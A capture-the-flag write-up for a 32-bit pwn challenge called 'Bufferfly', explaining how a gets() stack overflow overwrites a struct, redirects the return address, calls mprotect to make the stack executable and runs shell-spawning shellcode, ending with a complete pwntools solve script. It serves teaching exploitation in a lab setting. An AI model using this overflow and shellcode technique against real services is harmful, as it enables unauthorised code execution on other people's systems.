



# Writeup - Bufferfly
**Author: Ingeborg**

**Difficulty: challenging**

**Category: pwn**

---

We are given both the binary and the source code for part of the program.
In the file "bufferfly.c", we see the use of the function gets, which is
prone to buffer overflows. Read more about it [here](https://19.tghack.no/page/Pwntions%20tutorial) or google it.


```
$ nc bufferfly.tghack.no 6002
```


If we look at the source file, we see that our goal is likely to be reaching the
supersecret_base-function. The address of this is printed in the function talk_to_chest, this function will be executed if the first function (open_chest) returns true. Here, we can see that in order for open_chest to return true, the value of voice.bubble must be zero and voice.characteristics must be 25. These are not the default values set by the program and there is no way to change them while interacting with the program in the intended way.

But because the gets-function is used, we can overwrite these values. This is because the gets-function is unsafe, it takes an unspecified amount of input without concern for how much the receiving array can actually store. This means that if more input than intended is given, the input will overwrite other parts of the memory (stack in our case). To make the function return true we have to overwrite the voice_recognizer struct, which means that we need to feed it 17 bytes of anything, with a following hex value for 0 and for 25.



Now we get to the talk_to_chest-function which tells us the address of the supersecret_base-address. Because the program takes more input here, we can set the now known secret address as the current return value. This can be done because there is no stack-canary checking if the values on the stack beyond the current function scope/stack frame. In this case there may be some values between the buffer we get to write to and the return value, both because there are actual stuffs that should be here and because the stack needs to be aligned. We therefore have to experiment with the amount of padding needed before writing our new return address. In our case, it turns out to be 32 bytes. We now send 32 bytes of padding and the address of supersecret_base, so that when the program exits the current function it returns to supersecret_base.
Our stack now looks like this:



Here we get this:
```
"Hi, I'm the Boblinessa cult encyclopedia!"
"So, what where you looking for?"
```

In the open_door-function we can get the address of the function "mprotect" and a buffer (that we can control) on the stack. Mprotect is a function that is used to change the permissions of a memory area that the calling process owns. One such memory area is the stack. Read more [here](http://man7.org/linux/man-pages/man2/mprotect.2.html). Mprotect can therefore be used to solve the problem with the stack not being executable. If we can make the buffer executable again we can place some shellcode of our choice on the stack and run it. So let's do that!

Mprotect needs to know the address of the memory area that should get new permissions, how large the area is and which permissions should be given. The signature of mprotect is this:
```
int mprotect(void *addr, size_t len, int prot);
```
We call this function the same way we did in the previous turn, by replacing the current return value. Because this is a 32 bit binary, the arguments for the called functions are placed directly on the stack, directly following the function address.
For the shellcode, we are going to do it the easy way and make [pwntools](http://docs.pwntools.com/en/stable/) do it for us. We add a nop-sled and padding to make sure everything is alligned and correctly placed. This requires some experimentation, but here is the final solve script:
```
from pwn import *


# set debug = True to test solution locally
debug = True
# Run with strace for debugging
# This creates a need for a slightly different method of parsing
strace = False

if debug:
    if strace:
        c = process("strace './bufferfly'", shell=True)
    else:
        c = process("./bufferfly")
else:
    c = remote("localhost", 1337)

c.sendline("a"*17 + "\x00" + "\x19\x00\x00\x00")
curr = c.recvuntil("you know, the one at 0x")
curr = c.recvline()
goal_address = p32(int(curr.split("!")[0], 16))
c.sendline("a" * 32 + goal_address + "\n\n %x %x")

###############################
#     Creating shellcode      #
###############################
context.update(arch='i386', os='linux')
shellcode = shellcraft.sh()
shellcode = b"\x90" * 15 + asm(shellcode)

###############################
#  Getting address of buffer  #
###############################
c.sendline("mattac\nnot donio")
c.recvuntil("Also I'm hiding here: ")
curr = c.recv()
if strace:
    addr = curr.split("\"")[0]
else:
    print(curr)
    addr = curr.split(".")[0]

stack_ret = int(addr, 16)
# stack address to give permissions to. Find by aligning down(?) return address
stack_start = (stack_ret / 4096) * 4096
stack_ret = p32(stack_ret)
stack_start = p32(stack_start)

###############################
# Getting address of mprotect #
###############################
c.sendline("mprotec\nnot done")
curr = c.recvuntil("She protecs right here in fact: ")
curr = c.recvline()
mprotect = p32(int(curr.split(".")[0], 16))
permissions = p32(0x00000007)  # Need read, write and execute
size = p32(0x0001000)  # pagesize/4096

###############################
#   Assembling final payload  #
###############################
pad = "A" * 29
payload = shellcode + pad
payload += mprotect + stack_ret + stack_start + size + permissions
c.sendline(payload + "\ndone")
c.interactive()
```

Our stack now looks a bit like the illustration below. So when we return from the last function, our shellcode should run and we should
get a shell.


